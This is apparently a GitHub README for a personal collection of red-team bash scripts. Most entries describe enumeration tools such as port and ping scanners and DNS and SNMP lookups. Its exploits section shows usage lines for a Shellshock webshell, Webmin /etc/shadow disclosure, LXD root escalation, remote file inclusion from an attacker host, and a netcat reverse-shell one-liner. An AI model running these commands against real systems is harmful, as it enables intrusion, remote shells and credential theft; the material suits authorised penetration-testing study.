 # Bash
Collection of bash tools I wrote to make my life easier or test myself. The help switch defined for these scripts is written with the assumption these exist in a PATH environmnet variable. Typically commands such as these should be placed in /usr/local/bin. This is considered best practice for Linux. Most of these tools will be useful to Red Teamers.

## ADD COMMANDS TO /usr/local/bin
Enter the below commands to download this repo, make the .sh files executable and place the .sh executable files into your /usr/local/bin so you can use for example "getip" instead of ./getip.sh to execute the commands.
```sh
git clone https://github.com/tobor88/Bash
cd Bash
sudo chmod u+x *.sh
files=$(ls *.sh)
for f in $files; do cp "$f" /usr/local/bin/"${f%.sh}"; done
```
---
#### BASH EXPLOITS
- __CVE-2014-6271.sh__ This exploit is used to execute commands on a remote server vulnerable to the CVE-2014-6271 ShellShock vulnerability. It creates a webshell at /var/www/html/simple.php and uses curl to simulate a shell like session. Currently only able to issue one word commads. I plan adding more functionality in the future.
![ShellShock CVE-2015-6271](https://raw.githubusercontent.com/tobor88/Bash/master/shellshock.png)

- __CVE-2006-3392.sh__ This exploit is used to perform an unauthenticated remote file disclosure on Webmin version <1.29x.
```bash
./CVE-2006-3392.sh 10.11.1.141 10000 http /etc/shadow
```
![CVE-2006-3392](https://raw.githubusercontent.com/tobor88/Bash/master/cve20063392.png)

- __LXD Privilege Escalation__ This exploit can be used to escalate privileges in a Linux environment where the user is a member of the lxd group. 
```bash
# Example Usage:
./lxd_privesc.sh container01
# RESULTS
Device rootdisk added to container01
Device rootdisk removed from container01
[*] Execution completed
uid=0(root) gid=0(root) groups=0(root)
root@example:/dev/shm/.tobor# exit
```

- __CoreHTTP 0.5.3.1 - 'CGI' Arbitrary Command Execution__ This exploit is used to obtain a reverse shell from a remote server hosting a CoreHTTP instance version 0.5.3.1 or lower. CoreHTTP server fails to properly sanitize input before calling the popen() function in http.c. Define a reverse shell to execute. I have a common list on my site [Reverse Shells Here](https://roberthosborne.com/reverse-shells)
```bash
# Example Usage:
./corehttp-rev-shell.sh -u 'http://10.11.1.2:10443/foo.pl' -s 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.172 1338 >/tmp/f'
```
![corehttp-reverse-shell](https://raw.githubusercontent.com/tobor88/Bash/master/corehttp-rev-shell.png)

- __rfi-rce.sh__ This is a command that can be used to simplify RCE through a remote file inclusion vulnerability by exploiting it in a shell like fashion.
```bash
rfi-rce -f /var/www/html/evil.txt -u "http://target-ip/section.php?page=http://attacker-ip/evil.txt"
```
![rfi-rce.sh](https://raw.githubusercontent.com/tobor88/Bash/master/rfi-rce.png)

---
#### BASH COMMANDS
- __readid.sh__ This is complete. (Disaplys the /etc/passwd, /etc/shadow, or /etc/group files into an easy to read format)

![readid.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/readid_img.png)


- __getip.sh__ I view this as done. (Restrieves and displays the public and private IP addresses on a computer)

![getip.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/getip_img.png)


- __pingsweep.sh__ This works best when fping is installed on your Linux distro. If fping is not installed it will failover to using the ping command instead. The timeout for ping is set to 1 second so if you are using this with proxychains you may need to mess around with this setting.

![pingsweep.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/pingsweep_img.png)


- __portscan.sh__ In the future I will add more input validation and error handling. (Custom port scanner. Check all ports, one port, or a custom range of ports.)

![portscan.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/portscan_img.png)


- __massnmp.sh__ Script I built to quickly obtain SNMP information from a defined subnet range. This was written for Kali so it uses OneSixtyOne and SNMP-Check. If these are not already installed they will need to be for the script to work. This script will build 3 files in your /tmp directory which means on next restart they will be deleted. Enumerated SNMP info on different targets will be placed into a txt file in the $PWD the script was executed from.

![massnmp.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/massnmp.png)


- __absolutepathit.sh__ This command is used to convert all relative commands in a script to absolute path commands. To play this one safe I have it create a copy of the script you wrote and places it in a file called /tmp/absolutepathit_tmpinfo. This file has all comments removed from it and replaces any commands that have a result value obtained from the command $(which <cmd>) with the absolute path value result for that command. 
 Copy and paste the results into your script to ensure you dont lost your comments and to ensure any possible command words you have in echo quotations are what you want. 
 This is not perfect yet as you can see in the image below it misses curl.
 
 ![absolutepathit.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img.png) 

 To deal with that issue I added line 40 which will obtain commands that are located next to a ( character. This does not misinterpret _print_ in the __awk__ command. 
 
 ![absolutepathit.sh results improvement](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img2.png)
 
 The issue I noticed came from another script came from a website in the bash script. This is because the slash is viewed as an escape character. Any contributions are welcome. This is still a work in progress.

- __MountDriveVMWworkstation.sh__ This is a simple script meant to be executed in order to quickly mount a defined Shared Folder in VMWare Workstation to a Linux VM running inside VMWare Workstation.
```sh
./MountDriveVMWworkstation.sh 
```

- __newusercheck.sh__ This is a simple script to send an email alert whenever a new user is added to an /etc/passwd file on the local machine
 
- __PreventSleeping.sh__ This is a simple script to prevent a Debian based Linux Distro from falling asleep
```sh
./PreventSleeping.sh
```

- __enablespoofing.sh__ This is a simple script meant to take care of the tasks neccessary to allow dns spoofing on Kali Linux. It enables port forwarding on ipv4 and allows DNS traffic.

- __dnslookup.sh__ This command is meant to perform a mas dns lookup based on an IPv4 address range. Returns output in the below format
```sh
--------------------------------------------
| IP Address              |     FQDN's     |
--------------------------------------------
2.2.0.10.in-addr.arpa DC.osbornepro.com.
4.2.0.10.in-addr.arpa DEV.osbornepro.com.
```

- __enum_dns_servers.sh__ This command is meant to return the DNS servers in a domain. This is most useful when having a local domains DNS server set in your /etc/resolv.conf file.
```sh
---------------
| DNS Servers |
---------------
dns1.osbornepro.com.
dns2.osbornepro.com.
```
- __rcp-suid-privesc.sh__ This can be used to exploit the SUID bit on rcp. This only works on certain Operating Systems. Successfully tested on Red Hat 6.2. THere is a perl version of this script on exploitdb.

- __suidcheck.sh__ Needs a lot of work (Checks for exploitable suid bits and attempts to exploit them if they exist. Also returns cron job scripts)
